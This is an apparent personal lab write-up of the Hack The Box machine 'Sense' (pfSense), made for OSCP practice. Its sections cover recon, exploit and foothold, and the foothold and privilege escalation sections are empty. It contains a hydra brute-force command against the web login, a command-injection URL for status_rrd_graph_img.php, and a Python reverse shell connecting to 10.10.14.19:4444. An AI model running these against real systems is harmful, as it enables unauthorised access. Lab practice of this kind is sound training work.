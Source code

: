 # Sense
Name: Sense
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: 
- When you get banned learn how to proxy!

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)

![lightpd](lighttpd-1-4-35.png)

Nmap found /tree

![tree](silverstripetreedirectory.png)

![links](treeoflinks.png)

![changelog](changelogDOTtxt.png)

Blocked out non multiples of less than 3
![sense](oneofthreevulns.png)
2.2 - 2.4

Research pfsense_ng
[Documentation: Feature list 2.0](https://docs.netgate.com/pfsense/en/latest/releases/2-0-0.html)
FreeBSD!

Basically tried some of the exploits
I missed the system-users.txt file, because I did not proxy after being banned. Checked the video, after one of the exploits required authenication and I tried the others..

![sad](sadban.png)

Tried:
```bash
hydra -l Rohit -P /usr/share/wordlists/rockyou.txt -f 10.129.63.73 http-post-form '/index.php:__csrf_magic=sid%3A9b9199df3b86ab6e2c7871980c946b040c5ac939%2C1662233351&usernamefld=^USER^&passwordfld=^PASS^&login=Login:F=incorrect'
```
Then tried pfsense as password with rohit, not Rohit.

## Exploit

Secondly I changed the exploit to handle string concatenation properly in 3.10 python:

```python
login_url = f"https://{rhost}/index.php"
exploit_url = f"https://{rhost}/status_rrd_graph_img.php?database=queues;printf\'{payload}\'|sh"
```

This also did not work, 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Foothold

## PrivEsc

      
